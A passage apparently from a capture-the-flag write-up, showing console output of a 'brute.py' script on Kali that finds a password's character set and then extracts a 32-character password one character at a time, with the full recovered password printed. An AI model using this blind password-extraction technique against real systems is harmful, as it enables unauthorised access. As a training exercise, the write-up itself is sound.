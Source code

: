 Great! Once we got that script finished up, let's go ahead and run it!

```console
root@kali:~# ./brute.py
Using: 0
Using: 04
Using: 047
Using: 047d
Using: 047dg
Using: 047dgh
Using: 047dghj
Using: 047dghjl
Using: 047dghjlm
Using: 047dghjlmp
Using: 047dghjlmpq
Using: 047dghjlmpqs
Using: 047dghjlmpqsv
Using: 047dghjlmpqsvw
Using: 047dghjlmpqsvwx
Using: 047dghjlmpqsvwxy
Using: 047dghjlmpqsvwxyC
Using: 047dghjlmpqsvwxyCD
Using: 047dghjlmpqsvwxyCDF
Using: 047dghjlmpqsvwxyCDFI
Using: 047dghjlmpqsvwxyCDFIK
Using: 047dghjlmpqsvwxyCDFIKO
Using: 047dghjlmpqsvwxyCDFIKOP
Using: 047dghjlmpqsvwxyCDFIKOPR
All characters used. Starting brute force... Grab a coffee, might take a while!
Password: x*******************************
Password: xv******************************
Password: xvK*****************************
Password: xvKI****************************
Password: xvKIq***************************
Password: xvKIqD**************************
Password: xvKIqDj*************************
Password: xvKIqDjy************************
Password: xvKIqDjy4***********************
Password: xvKIqDjy4O**********************
Password: xvKIqDjy4OP*********************
Password: xvKIqDjy4OPv********************
Password: xvKIqDjy4OPv7*******************
Password: xvKIqDjy4OPv7w******************
Password: xvKIqDjy4OPv7wC*****************
Password: xvKIqDjy4OPv7wCR****************
Password: xvKIqDjy4OPv7wCRg***************
Password: xvKIqDjy4OPv7wCRgD**************
Password: xvKIqDjy4OPv7wCRgDl*************
Password: xvKIqDjy4OPv7wCRgDlm************
Password: xvKIqDjy4OPv7wCRgDlmj***********
Password: xvKIqDjy4OPv7wCRgDlmj0**********
Password: xvKIqDjy4OPv7wCRgDlmj0p*********
Password: xvKIqDjy4OPv7wCRgDlmj0pF********
Password: xvKIqDjy4OPv7wCRgDlmj0pFs*******
Password: xvKIqDjy4OPv7wCRgDlmj0pFsC******
Password: xvKIqDjy4OPv7wCRgDlmj0pFsCs*****
Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsD****
Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDj***
Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh**
Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd*
Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
Completed!
```
